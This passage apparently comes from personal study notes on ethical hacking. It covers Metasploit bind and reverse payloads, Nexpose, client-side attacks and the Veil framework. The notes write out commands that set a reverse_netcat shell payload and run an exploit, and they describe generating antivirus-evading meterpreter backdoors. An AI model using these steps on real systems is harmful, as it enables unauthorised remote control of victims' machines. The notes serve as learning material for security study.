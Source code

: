             show payloads
There are two main payloads - ==bind and reverse==.
==bind== - open a port in target computer where we connect
==reverse== - opens a port in our computer and then it connects the target to our machine. It allows us to bypass firewalls

We will use the reverse_netcat payload

            set PAYLOAD payload/cmd/unix/reverse_netcat
            set LHOST our_ip
            exploit
            
## nexpose
It is an enterprise tool which is a ==Vulnerability Mangement Framework==.
* Discover open ports and running services
* Find vulnerabilities
* Find exploits
* Verify them
* Generate reports
* Automate scans

It requires a lot of memory and is very costly, so it is used predominantly in enterprise environments only.
            
# Client Side Attacks
* Use if server side attacks fail
* If IP is probably useless(If the target is not in your network, so you cant ping them bcz they are protected behind a router)
* Require ==user interaction==
* Social engineering can be very useful
* Information gathering is vital

## VEIL - Framework
* A backdoor is a file that gives us full control over the machine that it gets executed on.
* Backdoors can be caught by anti-virus programs
* Veil is a framework for generating ==undetectable== backdoors

We install it then run it

           veil

There are 2 main tools available in veil, you can see them by command "list"-
* ==Evasion== : This generates unetectable backdoors
* ==Ordnance== : This generates the ==payloads== used by evasion

Now to use evasion

            use 1
To see available payloads

            list

The payloads follow a naming convention. It starts with its programming language. The ==second part== of the payload is very important. This is the type of the code that is going to be executed in the target. In an example, we use ==meterpreter==, which is a payload designed by metasploit, which doesnt leave a lot of footprints. 
The last part is ==reverse== or ==bind==, which was explained earlier. Rev is what we use bcz, the target is going to connect to us, so even if it is behind a router or has firewall, this works.
